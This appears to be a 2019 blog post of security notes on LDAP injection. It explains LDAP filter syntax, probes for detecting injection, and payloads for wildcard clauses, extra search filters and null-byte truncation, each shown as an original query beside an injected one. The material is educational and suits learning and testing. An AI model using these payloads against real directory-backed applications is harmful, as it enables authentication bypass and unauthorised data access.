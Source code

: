```yaml
---
layout: post
title:  "LDAP injections"
date:   2019-1-1 16:57:56 +0100
---
```

# Introduction
* LDAP: Lightweight Directory Access Protocol
* Used to access directory services over a network. Directory: hierarchically organized data store
* Examples:
  * Microsoft ADAM (Active Directory Application Mode)
  * OpenLDAP
* Commonly used in intranet-base web applications
* Simple match conditions on the value of one attribute: `(username=greg)`
* Disjunctive queries: `(|(cn=searchterm)(sn=searchterm)(ou=searchterm))`
* Conjunctive queries: `(&(username=greg)(password=dumbpassword))`
* Not possible to retrieve different attributes than the query was intended to retrieve
* Rarely return informative error message: blind LDAP injection


# Detection
* Available informations: results returned, HTTP 500 error
* Differentiating between SQL and LDAP: wildcard character `*`
* Number of closing brackets: `)))))))))`. May break something else, so need to make sure we're dealing with LDAP before
* `cn` attribute (supported on all LDAP implementations):
  * `)(cn=*`
  * `*))(|(cn=*`
  * `*))%00`


# Injections
* Wildcard: `)(department=*)`
```
(|(department=London searchterm)(departement=Reading searchterm))       # Original query
(|(department=London)(department=*)(department=Reading)(department=*))  # Modified query
```
* If multiple search filters allowed (OpenLDAP for example): `*))(&(username=searchterm`
```
(&(username=searchterm)(department=London*))                 # Original query
(&(username=*))(&(username=searchterm)(department=London*))  # Modified query
```

* Null bytes comments: `*))%00`
```
(&(username=searchterm)(department=London*))      # Original query
(&(username=*)) [NULL byte](department=London*))  # Modified query. Everything after the null byte is ignored
```
